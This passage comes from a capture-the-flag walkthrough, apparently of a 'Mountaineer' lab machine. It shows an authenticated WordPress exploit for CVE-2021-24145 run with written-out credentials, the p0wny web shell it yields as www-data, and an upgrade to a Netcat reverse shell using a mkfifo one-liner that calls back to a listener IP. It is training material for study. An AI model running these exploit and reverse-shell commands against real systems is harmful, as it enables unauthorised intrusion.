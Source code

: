 ![Login with Credentials](login_with_cred.png)

---


## Exploring the k2 Dashboard

Upon successful login, we access the k2 user's dashboard:

![k2 Dashboard](k2_dashboard.png)

However, we still lack admin or server access. Let's escalate further.

---

## Exploiting WordPress (CVE-2021-24145)

Since we are authenticated, we can exploit [CVE-2021-24145](https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145) to gain server access.

**Download and run the exploit:**

```bash
sudo python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p void@k211
```
![Exploit WordPress Server](exploit_wordpress_server.png)

After exploitation, access the provided shell URL:

![Gain Server Access](gain_server_access.png)

We now have a shell as `www-data`:

```console
p0wny@shell:/# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Upgrading to a Stable Shell

The current shell is limited. Let's upgrade to a Netcat reverse shell:

**On your machine (listener):**
```bash
nc -lvnp 8881
```
**On the target:**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|sh -i 2>&1|nc 10.8.76.195 8881 >/tmp/f
```
![NC Listen](nc_listen.png)

Now we have a stable shell.

---